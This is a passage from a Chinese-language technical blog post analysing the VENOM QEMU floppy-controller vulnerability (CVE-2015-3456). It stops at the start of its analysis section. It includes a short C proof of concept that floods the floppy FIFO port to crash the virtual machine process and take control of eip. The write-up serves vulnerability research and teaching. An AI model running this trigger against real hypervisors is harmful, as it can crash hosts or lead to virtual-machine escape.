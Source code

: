 ```yaml
---
layout: post
title: "VENOM漏洞分析与利用"
description: "VENOM exp without ASLR"
category: 技术
tags: [exploit]
---
```

{% include JB/setup %}



本文主要是对VENOM漏洞的原理进行分析，并且在关ASLR的情况下利用ret2lib的方式进行了利用。本文实验环境为Ubuntu 12.04 x86，kernel 3.2.57 ，qemu版本为2.2.0-rc1，实验室现成的开发机环境。

##1. 漏洞简介

VENOM，CVE-2015-3456是由CrowdStrike的Jason Geffner发现的存在于QEMU虚拟软驱中的漏洞。由于QEMU的设备模型被KVM、Xen等虚拟化软件广泛使用，影响还是比较大的，攻击者利用该漏洞能够使虚拟机逃逸，在宿主机中执行代码。

##2. 漏洞触发

根据mj提交在[360官方技术Blog](http://blogs.360.cn/blog/venom-%E6%AF%92%E6%B6%B2%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%EF%BC%88qemu-kvm-cve%E2%80%902015%E2%80%903456%EF%BC%89/)上的文章，原始poc可能会对触发有影响，我这里也没成功，就用了文中的poc。（下文有些内容也是从该文中学习的，有些重复只是为了保证本文完整性）运行poc之后，虚拟机进程崩溃。第一版poc及崩溃效果如下:

	#include <sys/io.h>
	#include <stdio.h>
	
	#define FIFO 0x3f5
	
	int main()
	{
		int i;
		iopl(3);
		outb(0x08e,0x3f5);
		for(i = 0;i < 10000000;i++)
			outb(0x42,0x3f5);
		return 0;
	}

![](/assets/img/venom/1.png)
![](/assets/img/venom/2.png)

eip的值为42424242，猜测eip可以控制。下面结合mj的文章对漏洞做简要分析。

##3. 漏洞分析
